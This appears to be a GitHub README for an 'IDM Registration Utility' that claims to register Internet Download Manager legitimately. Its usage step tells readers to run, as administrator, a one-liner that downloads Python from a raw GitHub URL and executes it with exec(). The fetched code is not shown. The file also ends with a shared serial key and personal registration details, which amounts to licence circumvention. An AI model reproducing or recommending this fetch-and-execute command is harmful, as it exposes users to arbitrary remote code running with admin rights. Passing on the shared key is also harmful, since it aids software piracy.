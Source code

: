 <h1 style="margin-left: 20px;">IDM Registration Utility (idman641, Build 18, Latest Version)</h1>

Welcome to my repository! This IDM is not a cracked or unofficial version, it just registers IDM with a valid key that has been purchased!
Crack and Unofficial versions contain Viruses and trojans, you can download the official IDM and register it via this py script.
<img src="https://raw.githubusercontent.com/musaalif6969/IDM-Registered-Version/main/idm.png" alt="IDM Logo" width="20" height="18">
## Additional Resources
- If you have any concerns about the IDM Utility, you can use [VirusTotal](https://www.virustotal.com) to scan the executable file for peace of mind. 
<br>
Here's the Report <br>
<a href="https://www.virustotal.com/gui/file/6ee0630168046a59382c17cc230cf667853858b6a1fc848b3dd118869f729cdf" target="_blank">
  <img src="https://raw.githubusercontent.com/musaalif6969/IDM-Registered-Version/main/Virustotal_logo_pixelalign.png" alt="IDM Logo" width="200" height="60">
</a>


You can find resources in the resources folder.


## Screenshots
Here's a screenshot of what the Registered IDM looks like:
![IDM Screenshot](https://raw.githubusercontent.com/musaalif6969/IDM-Registered-Version/main/image.png)

## How to Use
1. Install Python on your device.
2. Copy this command, and past it on cmd (Administration required)
```python
C:\Windows\py.exe -m pip install requests && C:\Windows\py.exe -c "import urllib.request, requests; exec(urllib.request.urlopen('https://raw.githubusercontent.com/musaalif6969/IDM-Registration-Utility/main/main.py').read().decode())"

```
3. You are good to go!

---

## Additional Info


```ini
; First Name
[FName]="Musa"

; Installation Status
[InstallStatus]=dword:00000003

; Last Name
[LName]="Alif"

; Email Address
[Email]="musaalif007@gmail.com"

; Serial Key
[Serial]="HE3TB-8J3SY-FP9SC-6RKR2"
```
